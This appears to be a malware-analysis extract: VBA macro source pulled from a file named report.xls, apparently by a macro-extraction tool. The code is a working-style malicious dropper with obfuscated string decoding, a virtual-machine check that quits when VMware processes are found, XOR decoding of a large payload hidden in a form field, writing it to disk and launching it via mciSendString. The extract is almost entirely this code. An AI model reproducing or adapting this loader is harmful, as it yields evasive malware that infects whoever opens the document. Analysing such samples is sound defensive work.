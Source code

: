 ```vbscript
        furphy = furphy + Chr(cc)
    Next i
    rigmarole = furphy
End Function

Function folderol()
    Dim wabbit() As Byte
    Dim fn As Integer: fn = FreeFile
    Dim onzo() As String
    Dim mf As String
    Dim xertz As Variant
    
    onzo = Split(F.L, ".")
    
    If GetInternetConnectedState = False Then
        MsgBox "Cannot establish Internet connection.", vbCritical, "Error"
        End
    End If

    Set fudgel = GetObject(rigmarole(onzo(7)))
    Set twattling = fudgel.ExecQuery(rigmarole(onzo(8)), , 48)
    For Each p In twattling
        Dim pos As Integer
        pos = InStr(LCase(p.Name), "vmw") + InStr(LCase(p.Name), "vmt") + InStr(LCase(p.Name), rigmarole(onzo(9)))
        If pos > 0 Then
            MsgBox rigmarole(onzo(4)), vbCritical, rigmarole(onzo(6))
            End
        End If
    Next
        
    xertz = Array(&H11, &H22, &H33, &H44, &H55, &H66, &H77, &H88, &H99, &HAA, &HBB, &HCC, &HDD, &HEE)

    wabbit = canoodle(F.T.Text, 0, 168667, xertz)
    mf = Environ(rigmarole(onzo(0))) & rigmarole(onzo(1))
    Open mf For Binary Lock Read Write As #fn
      Put #fn, , wabbit
    Close #fn
    
    mucolerd = mciSendString(rigmarole(onzo(2)) & mf, 0&, 0, 0)
End Function

Function canoodle(panjandrum As String, ardylo As Integer, s As Long, bibble As Variant) As Byte()
    Dim quean As Long
    Dim cattywampus As Long
    Dim kerfuffle() As Byte
    ReDim kerfuffle(s)
    quean = 0
    For cattywampus = 1 To Len(panjandrum) Step 4
        kerfuffle(quean) = CByte("&H" & Mid(panjandrum, cattywampus + ardylo, 2)) Xor bibble(quean Mod (UBound(bibble) + 1))
        quean = quean + 1
        If quean = UBound(kerfuffle) Then
            Exit For
        End If
    Next cattywampus
    canoodle = kerfuffle
End Function

-------------------------------------------------------------------------------
VBA MACRO F.frm 
in file: report.xls - OLE stream: u'_VBA_PROJECT_CUR/VBA/F'
```